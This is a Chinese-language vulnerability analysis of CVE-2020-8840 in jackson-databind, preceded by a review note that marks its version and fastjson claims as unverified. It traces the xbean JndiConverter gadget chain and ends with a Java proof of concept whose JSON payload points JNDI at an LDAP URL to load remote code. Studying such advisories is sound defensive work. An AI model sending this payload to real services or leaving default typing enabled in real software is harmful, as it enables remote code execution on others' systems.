

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ClaimsJackson2.0.0–2.9.10.2, Fastjson1.2.62 AutoType; Jackson typing enabled; xbean/JDK unpinned

代码与实验材料：Java payload and sink prose; no dependency manifest/LDAP setup/fix; images only implementation proof

来源证据范围：No actual original/commit URL though text mentions commit

- **事实待核（1）**：Missing xbean version, JDK conditions and full branch/fix ranges。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：Historical latest Fastjson wording, duplicate image suffixes and typo FFasterXML。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
============================================================

一、漏洞简介
------------

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

二、漏洞影响
------------

-   jackson-databind 2.0.0 -- 2.9.10.2

-   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson
    v1.2.62版本

三、复现过程
------------

可以在git提交记录中清楚看到利用的具体类

FasterXMLjackson-databind远程代码执行漏洞/media/rId24.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

FasterXMLjackson-databind远程代码执行漏洞/media/rId25.png)

随后跟进`toObject()`函数

FasterXMLjackson-databind远程代码执行漏洞/media/rId26.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

FasterXMLjackson-databind远程代码执行漏洞/media/rId27.png)

此时出现经典的JNDI注入，text
刚好就是我们传进的asText，我们可控，从而达到命令执行目的

FasterXMLjackson-databind远程代码执行漏洞/media/rId28.png)

### poc

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String args[]) {
            ObjectMapper mapper = new ObjectMapper();

            mapper.enableDefaultTyping();

            String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

            try {
                mapper.readValue(json, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }
